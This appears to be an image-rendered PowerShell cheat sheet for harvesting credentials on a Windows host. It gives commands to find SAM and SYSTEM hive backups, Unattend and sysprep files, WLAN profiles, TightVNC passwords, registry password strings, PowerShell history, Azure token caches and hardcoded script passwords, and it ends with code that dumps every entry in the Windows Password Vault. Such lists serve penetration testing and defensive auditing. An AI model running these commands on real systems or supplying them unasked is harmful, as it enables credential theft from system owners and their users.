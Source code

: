     # WLAN profiles
    C:\ProgramData\Microsoft\Wlansvc\Profiles\*.xml

    # TightVNC password (convert to Hex, then decrypt with e.g.: https://github.com/frizb/PasswordDecrypts)
    Get-ItemProperty -Path HKLM:\Software\TightVNC\Server -Name "Password" | select -ExpandProperty Password

    # Look for SAM file
    Get-ChildItem -path C:\Windows\Repair\* -include *.SAM*,*.SYSTEM* -force -Recurse 
    Get-ChildItem -path C:\Windows\System32\config\RegBack\*  -include *.SAM*,*.SYSTEM* -force -Recurse
    Get-ChildItem -path C:\* -include *.SAM*,*.SYSTEM* -force -Recurse 

    # Check Registry for password
    reg query HKLM /f password /t REG_SZ /s
    reg query HKCU /f password /t REG_SZ /s

    # Check for unattend and sysgrep files
    Get-ChildItem -path C:\* -Recurse -Include *Unattend.xml*
    Get-ChildItem -path C:\Windows\Panther\* -Recurse -Include *Unattend.xml* 
    Get-ChildItem -path C:\Windows\system32\* -Recurse -Include *sysgrep.xml*, *sysgrep.inf* 
    Get-ChildItem -path C:\* -Recurse -Include *Unattend.xml*, *sysgrep.xml*, *sysgrep.inf* 

    # Look for powershell history files
    Get-Childitem -Path C:\Users\* -Force -Include *ConsoleHost_history* -Recurse -ErrorAction SilentlyContinue

    # Hardcoded Password in scripts
    Get-ChildItem -path C:\*  -Recurse -Include *.xml,*.ps1,*.bat,*.txt  | Select-String "password"| Export-Csv C:\Scripts\Report.csv -NoTypeInformation
    Get-ChildItem -path C:\*  -Recurse -Include *.xml,*.ps1,*.bat,*.txt  | Select-String "creds"| Export-Csv C:\Scripts\Report.csv -NoTypeInformation

    # Azure token
    Get-ChildItem -path "C:\Users\*" -Recurse -Include *accessTokens.json*, *TokenCache.dat*, *AzureRmContext.json*

    # Dump Password Vault
    [void][Windows.Security.Credentials.PasswordVault,Windows.Security.Credentials,ContentType=WindowsRuntime]
    $vault = New-Object Windows.Security.Credentials.PasswordVault
    $vault.RetrieveAll() | % { $_.RetrievePassword();$_ }
